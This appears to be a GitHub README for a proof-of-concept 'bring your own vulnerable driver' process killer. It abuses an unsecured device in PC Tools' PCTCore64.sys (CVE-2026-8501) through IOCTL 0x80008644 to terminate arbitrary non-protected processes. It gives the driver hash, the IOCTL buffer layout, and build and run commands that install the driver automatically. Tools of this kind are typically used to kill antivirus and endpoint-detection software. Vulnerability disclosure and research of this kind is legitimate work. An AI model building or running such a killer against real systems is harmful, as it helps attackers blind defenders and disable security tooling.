

# PCTcore64-Killer

- PoC for **CVE-2026-8501** / [VU#158530](https://kb.cert.org/vuls/id/158530) in `PCTCore64.sys` from PC Tools Internet Security
- `PCTCore64.sys` SHA256: `C76DD87891E3E30DB2AED057E7B04C19CA264F434C21F68A7A2D9B17A97AFF39`
- Driver creates `\Device\PCTCoreDevice` (symlink `\\.\PCTCoreDriver`) with no SDDL / `IoCreateDeviceSecure`, so any user can open it

Built on [`byovd-lib`](../byovd-lib/) -- implements the `DriverConfig` trait and delegates the full BYOVD flow to the shared library.

## What it does

IOCTL `0x80008644` takes a `{ target_pid: u64, exit_code: u32 }` buffer and calls `ZwOpenProcess(PROCESS_TERMINATE)` + `ZwTerminateProcess` on the target. No caller check, no PPL bypass on this path -- works for any non-PPL process.

## Usage

Place `PCTcore64.sys` in the same directory as the executable.

```text
BYOVD process killer using PCTcore64 driver (CVE-2026-8501)

Usage: PCTcore64-Killer.exe [OPTIONS] --name <PROCESS_NAME>

Options:
  -n, --name <PROCESS_NAME>  Target process name (e.g., notepad.exe)
  -a, --attach               Attach to an already-loaded driver (skip service install/start/stop)
  -h, --help                 Print help
  -V, --version              Print version
```

```bash
# Build
cargo build --release -p PCTcore64-Killer

# Run (installs and starts driver automatically)
.\PCTcore64-Killer.exe -n notepad.exe

# Run against an already-loaded driver
.\PCTcore64-Killer.exe -n notepad.exe --attach
```

Windows 10 Pro (build 19045)


